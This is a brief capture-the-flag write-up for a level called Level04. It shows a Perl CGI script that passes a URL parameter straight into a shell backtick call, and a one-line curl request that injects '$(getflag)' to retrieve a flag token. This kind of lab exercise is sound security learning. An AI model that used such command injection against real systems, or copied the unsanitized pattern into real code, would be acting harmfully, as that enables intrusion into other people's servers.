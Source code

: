 ### Level04

On our HOME we can see a pearl script:
```pearl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));`
```

The script takes a parameter and then prints it to the screen. We are also told that the result is accessible on localhost:4747.

To get the flag, all we have to do is run a command of our choice through the script. 

`curl localhost:4747?x='$(getflag)'`

Here we use a subshell to make the script run the getflag command. So we get the token :

`ne2searoevaevoem4ov4ar8ap`
